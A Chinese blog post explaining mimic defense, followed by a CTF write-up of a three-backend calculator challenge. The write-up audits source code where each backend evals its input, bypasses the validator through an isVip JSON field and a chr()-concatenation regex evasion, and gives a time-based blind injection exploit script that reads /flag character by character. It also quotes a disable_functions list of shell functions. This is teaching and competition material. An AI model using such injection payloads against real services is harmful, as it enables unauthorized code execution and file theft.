






#### 

拟态防御的出发点就是解决现阶段<font color="yellow">网络安全中不平衡态势</font>的问题。

概括来说 主要问题有这几点：

1. 网络环境存在<u>未知的安全漏洞</u>，是系统的安全策略的缺陷造成的，往往难以避免。

2. 软硬件都存在的<u>后门问题</u>，很多网络安全事件(如棱镜门)都反映出后门的问题在信息技术产品中是普遍存在的。

3. 未知<u>漏洞后门和测信道</u>的问题，测信道造成的安全隐患往往是无法或很难用物理或逻辑的方法彻底消除的。

​	而面对这些主要问题，我们现有的防御系统是什么样的呢？

​	现有的防御系统我们需要了解攻击来源、攻击特征、攻击途径、攻击行为和攻击机制等先验知识作文基础。换句话说必须建立在“已知的风险”或“已知的未知风险”的前提条件上，但<u>对于“未知的未知”风险几乎是不设防的</u>，仅有加密认证是一种比较实时高效的应对措施。 但还是不能很好的应对测信道攻击等攻击手段。

​	概括的说，现有的防御机制是<font color="yellow"><u>易攻难守</u></font>的，有一点“亡羊补牢”的味道。只能通过不断的封堵漏洞，杀毒灭马来获得”后天性的免疫“。往大了讲，很多网络空间信息系统架构和防御体系是“静态的、相似的、确定的”。

#### <a href = "0x02">2.拟态防御</a>

​	一种生物在色彩、纹理和形状等特征上模拟另一种生物或环境, 从而使一方或双方受益的生态适应现象, 在生物学中称为拟态现象。

​	对于这种特征生物学中叫做“拟态伪装”

但对于我们的网络空间主动防御，是不能直接以拟态伪装作为概念基础的，因为在大多数网络空间信息系统中服务功能和性能是不能被隐匿的，类似Web服务、路由交换、文件存储等等。

但对于<u>其他行为</u>，比如目标对象的系统构架、运行机制、核心算法、异常表现以及可能存在的未知漏洞或后门<u>都可以通过拟态伪装的方式进行隐匿</u>，所以，<u>把除隐匿目标对象服务功能外的拟态伪装定义为“拟态防御”</u>

##### 	2.1异构冗余设计

​	其实也就是说对于我们给定的一个功能，往往有多种实现结构，当然这是最低要求。

​	这种构造的理论依据是“独立开发的装置或模块发生共性设计缺陷导致共模故障的情况属于小概率事件”,也就是说在独立设计功能等价的模块时，缺陷往往不会重合。


​	当然这种体制缺陷也是很明显的

​	首先是要求所有的构件具有互异性，会提高设计代价，需要设计多个构件，且设计得不同。

​	其次是这种系统仍然是静态的，各构件的运行机制也是相似的，其防御行为是具有一定的可预测性的，攻击者一旦掌握了较多的对象过程信息就可以使多各构件造成一致性错误。并且攻击成功后可复现。

​	还有就是这种构造的容错特性是以软件故障发生的随机性也前提，换句话说可以进行概率计算。而对于未知漏洞等不确定性威胁，不具有计算性质，也就无法进行概率分析。

​	也就是说攻击者如果有资源和能力覆盖到整个架构是可以进行多执行体的协同攻击的。

##### 	2.2动态异构冗余设计

​	为了解决上面的问题，可以向原系统中引入动态性和随机性。

​	对多个执行体进行动态调度，就可以很大程度上解决因静态系统而造成的防守可预测性和攻击成功后的复现问题。

​	随机性就可以对攻击行为进行概率化的表述

​	

说的更直白点，就是从所有执行体中随机的选择进行服务，或是通过虚拟化技术改变冗余执行体内在的资源配置方法或现在运行环境，或者对执行体进行预防性或修复性的清洗。是攻击难以被复现。

关于DHR构造抗攻击性分析可查阅邬江兴院士的论文。

#### 3.一个在CTF中利用拟态防御思想的题目
##### 3.1 题目审计

一道利用了拟态思想的题目



查看题目是一个RIOS很喜欢出的计算器，发现是可以查看源码的



观察源码发现是有三种后端实现，分别使用了Node.js、PHP、Python。（异构冗余的设计）

我们再回到计算器


对于三种后端处理结果一直的输入是可以成功返回无报错的


而对于非法输入导致三种、

对三种后端做一个审计，

```php
<?php
ob_start();
$input = file_get_contents('php://input');
$options = MongoDB\BSON\toPHP($input);
$ret = eval('return ' . (string) $options->expression . ';');
echo MongoDB\BSON\fromPHP(['ret' => (string) $ret]);
?>
disable_functions = set_time_limit,ini_set,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail,putenv,error_log
max_execution_time = 1
```

``PHP``端很明显对参数进行了``eval``

但禁用了一些个函数，并且对响应时间进行了限制

```python
from flask import Flask, request
import bson
import json
import datetime

app = Flask(__name__)


@app.route("/", methods=["POST"])
def calculate():
    data = request.get_data()
    expr = bson.BSON(data).decode()
    if 'exec' in dir(__builtins__):
        del __builtins__.exec
    return bson.BSON.encode({
        "ret": str(eval(str(expr['expression'])))
    })


if __name__ == "__main__":
    app.run("0.0.0.0", 80)
```

``python``端 使用了``Flask``框架并过滤了``exec`` 但也会``eval``参数

```javascript
const express = require('express')
const bson = require('bson')
const bodyParser = require('body-parser')
const cluster = require('cluster')
const app = express()

if (cluster.isMaster) {
  app.use(bodyParser.raw({ inflate: true, limit: '10kb', type: '*/*' }))

  app.post('/', (req, res) => {
    const body = req.body
    const data = bson.deserialize(Buffer.from(body))
    const worker = cluster.fork()
    worker.send(data.expression.toString())
    worker.on('message', (ret) => {
      res.write(bson.serialize({ ret: ret.toString() }))
      res.end()
    })
    setTimeout(() => {
      if (!worker.isDead()) {
        try {
          worker.kill()
        } catch (e) {
        }
      }
      if (!res._headerSent) {
        res.write(bson.serialize({ ret: 'timeout' }))
        res.end()
      }
    }, 1000)
  })

  app.listen(80, () => {
    console.log('Server created')
  })

} else {

  (function () {
    const Module = require('module')
    const _require = Module.prototype.require
    Module.prototype.require = (arg) => {
      if (['os', 'child_process', 'vm', 'cluster'].includes(arg)) {
        return null
      }
      return _require.call(_require, arg)
    }
  })()
  
  process.on('message', msg => {
    const ret = eval(msg)
    process.send(ret)
    process.exit(0)
  })

}
```

``Nodejs``也是同理 进行了一些限制包括时间限制和 过滤

##### 3.2 攻击思路

对三种后端进行一个总结，就是每一个都直接``eval``了参数，并且做出了时间限制和一些危险函数的过滤

所以也就是说我们输入的恶意参数是会被执行的但是没有回显。

这里很自然的考虑到盲注，延时盲注等 因为不存在回显

这里延时注入就满足我们的需求，因为网页回显永远一致，只要控制时间就可以对执行结果进行判断

既然选择延时注入那么我们要注意到一点是，前端做出响应一定是在三个后端全部执行完毕之后，换句话说前端的响应时间取决于三种后端中执行最慢的那一个后端，那么我们是否可以只关注其中一个后端，让他的响应时间变为立即响应 / 延时5s响应，那么整个前端的时间就会变成立即响应 / 延时5s响应，那么我们就能通过前端的响应时间，来判断其中某个后端的执行结果是否成功。

做个测试


我们发现虽然题目设置了超时1s的操作，但是我们仍然成功的控制了时间


``Nodejs``中是不存在``sleep``函数的，所以问题应该在``python``或``php``中

对于``python``

我们做测试输入发现



审计后发现是对我们的输入长度进行了限制

```typescript
import {registerDecorator, ValidationOptions, ValidationArguments} from 'class-validator';
import CalculateModel from './calculate.model';

export function ExpressionValidator(property: number, validationOptions?: ValidationOptions) {
   return (object: Object, propertyName: string) => {
        registerDecorator({
            name: 'ExpressionValidator',
            target: object.constructor,
            propertyName,
            constraints: [property],
            options: validationOptions,
            validator: {
                validate(value: any, args: ValidationArguments) {
                  const str = value ? value.toString() : '';
                  if (str.length === 0) {
                    return false;
                  }
                  if (!(args.object as CalculateModel).isVip) {
                    if (str.length >= args.constraints[0]) {
                      return false;
                    }
                  }
                  if (!/^[0-9a-z\[\]\(\)\+\-\*\/ \t]+$/i.test(str)) {
                    return false;
                  }
                  return true;
                },
            },
        });
   };
}
```

比如我们输入15个0



14个0时


也就是说我们如果要使用盲注就要绕过字符长度限制并且还只能用正则限制外的字母、数字、加减乘除

#### 3.3 getflag

​	首先绕过字符长度限制

```typescript
 if (!(args.object as CalculateModel).isVip) {
                    if (str.length >= args.constraints[0]) {
                      return false;
                    }
                  }
                  if (!/^[0-9a-z\[\]\(\)\+\-\*\/ \t]+$/i.test(str)) {
                    return false;
```

只要``(args.object as CalculateModel).isVip``的值为``true``就可以不进入后面的``if``判断了

跟进``(args.object as CalculateModel).isVip``发现

```typescript
import {ValidateIf, IsNotEmpty, MaxLength, Matches, IsBoolean} from 'class-validator';
import { ExpressionValidator } from './expression.validator';

export default class CalculateModel {

  @IsNotEmpty()
  @ExpressionValidator(15, {
    message: 'Invalid input',
  })
  public readonly expression: string;

  @IsBoolean()
  public readonly isVip: boolean = false;
}
```

``isVip``的q默认值为``false``

所以只要构造``json``数组即可


进行构造后发现就绕过了长度限制

那么只要想办法绕过正则就可以了

想到正则中有加号，而加号在``python``里可以用于字符串拼接，那么不难想到``chr()``的拼接方式。

```python
eval(chr(0x31)+chr(0x2b)+chr(0x31)) # 1+1
2
```

由于``python``的代码在``php``和``nodejs``中都是无法运行的，决策器的验证是不可能通过，因此不会有正常结果回显。虽然不会显示命令注入的回显，但是返回结果会等所有决策器返回运行结果后才发送响应包，因此可以使用时间盲注，逐字符进行爆破``flag``。

注入payload：`__import__("time").sleep(2) if open("/flag").read()[0]=='f' else 1`

最后``exp``：

```python
# -*- coding:utf-8 -*-
import requests
import json
import string

header = {
"Content-Type":"application/json"}
url = "http://x.x.x.x:50004/calculate"

def foo(payload):
    return "+".join(["chr(%d)"%ord(x) for x in payload])

flag = ''
for i in range(20):
    for j in string.letters + string.digits + '{_}':
        exp = "__import__('time').sleep(3) if open('/flag').read()[%d]=='%s' else 1"%(i,j)
        data = {
            "expression": "eval(" + foo(exp) + ")",
            "isVip":True
        }
        try:
            r = requests.post(headers=header,url=url,data=json.dumps(data),timeout=2)
            #print r.elapsed
        except:
            flag += j
            print "[+] flag:",flag
            break
```

没跑完：



